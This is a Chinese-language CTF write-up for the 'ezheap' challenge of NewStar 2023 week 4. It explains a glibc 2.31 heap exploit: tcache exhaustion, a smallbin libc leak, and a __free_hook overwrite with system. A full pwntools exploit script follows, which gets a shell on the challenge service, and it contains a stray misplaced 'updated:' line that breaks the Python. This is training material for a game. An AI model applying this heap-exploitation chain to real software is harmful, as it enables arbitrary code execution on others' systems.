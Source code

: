 ```yaml
---
title: newstar2023 week4 - ezheap
date: 2023/10/18 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - heap - fastbin
    - libc2.31
excerpt: 利用堆漏洞和libc 2.31中的free hook，成功实现了对系统调用的利用。
---
```


## 文件分析

下载`ezheap`, 保护全开  
ghidra分析为64位程序

## 解题思路

是一个note录入程序，很明显是堆题

libc是2.31，有tcache，有tcache校验，不方便double free；hook还在，考虑利用

tcathe能存7个相同size的chunk，先消耗掉，就可以把接下去分配的chunk放到
fastbin 里，然后通过分配大chunk来把fastbin里的chunk扫到smallbin里，
smallbin里就有libc，拿到libcBase就可以求偏移改hook，调system

这道题的限制:  
notebook有限，可以通过分配与note结构一样大的 "字符串"
来快速消耗tcache；  
edit函数检验了note的首项，如果不经修改，就是fd，
无法成功利用，需要先伪造note结构通过检验，还要把字符串地址改为freeHook，
就能把system写进freeHook里；  
freeHook还不在debug符号里，需要自己推出来

## EXPLOIT

```python
from pwn import *
lo = 1

if lo:
    sh = process('ezheap')
    gdb.attach(sh)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')
else:
    sh = remote('node4.buuoj.cn', 25961)
    libc = ELF('libc-2.31.so')

def addn(idx:int, size:int, note:bytes=b'what'):
    sh.recvuntil(b'>>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'size')
    sh.sendline(str(size).encode())
    sh.recvuntil(b'note')
    sh.sendline(note)

def deln(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def show(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'3')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def edit(idx:int, note:bytes):
    sh.recvuntil(b'>>')
    sh.sendline(b'4')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(note)

addn(0, 64)
addn(1, 64)
addn(2, 64)
addn(3, 64)
addn(4, 64)
addn(5, 64)
addn(6, 64)
addn(7, 64)
addn(8, 64)
deln(6)
deln(5)
deln(4)
deln(3)
deln(2)
deln(1)
deln(0)
deln(8)
deln(7)
"""
bins now:
inuse: (size 0x51) 0 ~ 8
tcache: head -> 0 -> 1 -> 2 -> 3 -> 4 -> 5 -> 6 (full)
fastbin: head -> 7 -> 8
"""

addn(9, 1024)       #0 huge chunk to trigger malloc consolidate
updated: 2024/7/25 12:34:56
"""
bins now:
inuse: ...
tcache: head -> 1 -> 2 -> 3 -> 4 -> 5 -> 6
small bins: head <-> 7 <-> 8 <-> tail
"""
addn(10, 64)        #1
addn(11, 32)        #2, 3 alloc 0x20 unit to consume bins quickly
addn(12, 32)        #4, 5
addn(13, 32, b'\n') #6, 8 FIFO; '\n' to avoid writing on fd
edit(13, b'')       # write a '\n' in the end (will be amended below)
show(13)            # chunk 8 in small bins, fd is libc addr

sh.recvuntil(b'(0~15): \n') # skip

# find offset first
dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
print('main_arena in libc:', hex(dumpArena))

# read and shift addr to libcBase
mainArena = u64(sh.recv(6) + b'\0\0') - 0x0a - 0x80 # sub '\n' & small bin offset
print('main_arena  actual:', hex(mainArena))
libcBase = mainArena - dumpArena
freeHook = libcBase + libc.symbols['__free_hook']
systemAddr = libcBase + libc.symbols['system']

edit(11, p64(64) + b'0'*0x10 + p64(freeHook)) # forge notebook[3], notebook[3] -> str = freeHook
edit(12, b'/bin/sh\0')                        # forge notebook[5] as the arg of system
edit(3, p64(systemAddr))                      # notebook[3] -> size == sizes[3] => *freeHook = systemAddr
deln(5)                                       # trigger freeHook

sh.interactive()
```

Done.
